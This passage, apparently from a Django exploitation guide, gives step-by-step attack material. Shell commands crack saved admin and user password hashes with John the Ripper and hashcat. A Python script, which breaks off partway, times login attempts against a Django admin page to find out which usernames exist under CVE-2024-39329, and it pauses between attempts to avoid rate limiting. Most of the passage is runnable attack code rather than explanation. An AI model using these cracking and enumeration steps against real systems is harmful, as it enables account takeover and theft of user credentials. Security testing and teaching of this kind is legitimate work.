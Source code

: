 **Step 5: Crack Password Hashes**

```bash
# Save hashes to file
cat > hashes.txt <<EOF
admin:pbkdf2_sha256\$260000\$ABC123...\$HASH_HERE
john_doe:pbkdf2_sha256\$260000\$DEF456...\$HASH_HERE
EOF

# Crack with John the Ripper
john --format=django --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt

# Or use hashcat
hashcat -m 10000 hashes.txt /usr/share/wordlists/rockyou.txt
```

---

### 4.2 Authentication Bypass via Timing Attack (CVE-2024-39329)

**Vulnerability:** Django's authentication system has timing side-channels that leak whether a username exists.

**Exploitation Steps:**

**Step 1: Username Enumeration Script**

```python
# timing_attack.py
import requests
import time
import statistics

target = "http://localhost:8000/admin/login/"

def measure_login_time(username, password):
    """
    Measure the time it takes for a login attempt
    """
    session = requests.Session()

    # Get CSRF token
    r = session.get(target)
    csrf_token = session.cookies.get('csrftoken')

    # Attempt login and measure time
    start = time.perf_counter()
    r = session.post(target, data={
        'username': username,
        'password': password,
        'csrfmiddlewaretoken': csrf_token,
    })
    elapsed = time.perf_counter() - start

    return elapsed

def test_username(username, trials=10):
    """
    Test if username exists by measuring response times
    """
    times = []
    for i in range(trials):
        elapsed = measure_login_time(username, "wrongpassword123")
        times.append(elapsed)
        time.sleep(0.1)  # Avoid rate limiting
```
